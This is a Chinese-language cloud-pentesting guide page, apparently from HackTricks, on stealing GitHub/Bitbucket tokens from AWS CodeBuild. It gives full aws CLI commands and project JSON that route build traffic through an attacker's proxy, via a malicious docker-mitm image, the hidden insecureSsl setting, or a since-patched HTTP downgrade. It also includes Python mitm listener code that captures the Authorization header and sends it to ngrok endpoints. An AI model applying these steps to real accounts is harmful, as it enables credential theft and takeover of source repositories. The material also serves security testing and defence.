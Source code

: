 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 docker 镜像** 来运行项目的构建，从而 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
- 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 docker 镜像**。
- **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
- 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
- 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
- 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
- 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

- 如 **Github 仓库** 中所示，你可以使用类似的东西：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> 使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。

4. **运行构建并捕获凭证**

- 您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成。
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### 通过 insecureSSL

**Codebuild** 项目有一个名为 **`insecureSsl`** 的设置，该设置在网页中隐藏，您只能通过 API 更改它。\
启用此选项后，Codebuild 可以连接到存储库 **而不检查** 平台提供的证书。

- 首先，您需要使用类似以下的方式枚举当前配置：
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- 然后，使用收集到的信息，您可以将项目设置 **`insecureSsl`** 更新为 **`True`**。以下是我更新项目的示例，请注意最后的 **`insecureSsl=True`**（这是您需要从收集的配置中更改的唯一内容）。
- 此外，还要添加环境变量 **http_proxy** 和 **https_proxy**，指向您的 tcp ngrok，如：
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- 然后，在代理变量指向的端口（http_proxy 和 https_proxy）运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~通过 HTTP 协议~~

> [!TIP] > **这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我想是星期五）。所以攻击者不能再利用它了 :)**

具有 **提升权限的攻击者在 CodeBuild 中可能会泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，则 **用于访问代码的临时 OAuth 令牌**。

- 攻击者可以将环境变量 **http_proxy** 和 **https_proxy** 添加到 CodeBuild 项目，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- 然后，将 github 仓库的 URL 更改为使用 HTTP 而不是 HTTPS，例如：`http://github.com/carlospolop-forks/TestActions`
- 然后，在代理变量指向的端口（http_proxy 和 https_proxy）上运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- 接下来，点击 **Build the project** 或从命令行启动构建：
```sh
aws codebuild start-build --project-name <proj-name>
```
- 最后，**凭证**将以**明文**（base64）发送到mitm端口：

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> 现在攻击者将能够从他的机器上使用令牌，列出它拥有的所有权限，并比直接使用CodeBuild服务更容易地（滥用）它。

{{#include ../../../../banners/hacktricks-training.md}}
